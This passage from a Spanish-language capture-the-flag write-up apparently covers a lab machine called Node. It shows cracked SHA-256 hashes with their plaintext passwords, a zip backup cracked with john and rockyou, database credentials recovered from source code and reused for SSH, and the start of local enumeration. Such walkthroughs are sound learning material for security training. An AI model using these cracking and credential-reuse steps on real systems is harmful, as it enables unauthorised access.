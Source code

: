 Si intento romper los hashes con john y el rockyou no tengo suerte, en la web crackstation utilizan un diccionario mucho mas grande.
```
dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af	sha256	manchester: myP14ceAdm1nAcc0uNT  
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240	sha256	spongebob: tom  
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73	sha256	snowflake: mark  
5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0	Unknown	Not found: rastating  
```

Probamos a registrarnos con myP14ceAdm1nAcc0uNT:manchester en login y es correcto.  
![node2](https://user-images.githubusercontent.com/96772264/207566613-a3c132e8-ed37-4221-9c79-f52a9074b551.PNG)

--------------------
# Part 3: Nos descargamos un backup

Nos deja descargar el backup, que es un archivo en base64.  
```console
└─$ cat myplace.backup | base64 -d > myplace
└─$ file myplace # Zip archive
└─$ mv myplace myplace.zip
└─$ unzip myplace.zip # Pide contraseña
└─$ zip2john myplace.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
magicword        (myplace.backup.zip)
```
El zip tiene carpetas /var/www/myplace y dentro: ```/node_modules  static   app.html   app.js   package-lock.json   package.json```

App.js revela una nueva ruta:  
- "/api/admin/backup" (supongo que de donde se descarga el backup)  
- "/api/session/authenticate" se encarga del login  
- Hash para mongo db 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 (ni el cracksation lo rompe)  
- mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace'  

Supongo que el hash sale de esto "5AYRft73VtFpc84k"...
```console
└─$ sshpass -p "5AYRft73VtFpc84k" ssh mark@10.10.10.58;
```
--------------------
# Part 4: Dentro del sistema, mongodb

Analizo el sistema con mi [herramienta](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh)
- Usuarios: mark (nosotros), tom, frank y root  
- SUID: /usr/local/bin/backup -> no podemos ejecutarlo  
- Architecture: x86_64 CPU op-mode(s): 32-bit, 64-bit Byte Order: Little Endian  
- Tom está corriendo con node dos cosas: /var/scheduler/app.js y /var/www/myplace/app.js (lo que bajamos antes en el backup)  
